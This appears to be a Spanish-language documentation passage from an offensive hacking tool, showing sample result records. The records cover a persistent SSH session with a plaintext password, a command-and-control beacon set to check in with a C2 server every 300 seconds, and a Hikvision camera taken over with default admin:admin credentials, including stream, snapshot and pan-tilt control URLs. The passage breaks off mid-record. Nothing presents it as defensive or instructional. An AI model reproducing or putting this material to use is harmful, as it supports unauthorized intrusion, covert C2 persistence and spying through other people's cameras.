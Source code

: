 ### Conexión Remota
```python
{
    'host': '192.168.1.100',
    'type': 'ssh',
    'port': 22,
    'username': 'svc_192_168_1_100',
    'password': 'P@ssw0rd_100!',
    'persistent': True,
    'auto_reconnect': True,
    'timestamp': 1640995200.0
}
```

### Apuntador C2
```python
{
    'host': '192.168.1.100',
    'c2_server': '192.168.1.200',
    'c2_port': 8080,
    'checkin_interval': 300,
    'method': 'http_post',
    'encrypted': True,
    'timestamp': 1640995200.0
}
```

### Cámara Accedida
```python
{
    'host': '192.168.1.100',
    'port': 80,
    'protocol': 'http',
    'camera_type': 'hikvision',
    'credentials': {
        'username': 'admin',
        'password': 'admin'
    },
    'camera_info': {
        'model': 'DS-2CD2142FWD-I',
        'firmware': 'V5.5.82',
        'features': ['ptz', 'night_vision', 'audio']
    },
    'screenshots': [
        'camera_screenshots_1640995200/192.168.1.100_screenshot_1.jpg',
        'camera_screenshots_1640995200/192.168.1.100_screenshot_2.jpg'
    ],
    'access_urls': {
        'web_interface': [
            'http://admin:admin@192.168.1.100:80/',
            'http://admin:admin@192.168.1.100:80/index.html'
        ],
        'streaming': [
            'http://admin:admin@192.168.1.100:80/video.mjpg',
            'http://admin:admin@192.168.1.100:80/stream'
        ],
        'snapshots': [
            'http://admin:admin@192.168.1.100:80/snapshot.cgi',
            'http://admin:admin@192.168.1.100:80/image'
        ],
        'control': [
            'http://admin:admin@192.168.1.100:80/cgi-bin/ptz.cgi'
        ]
```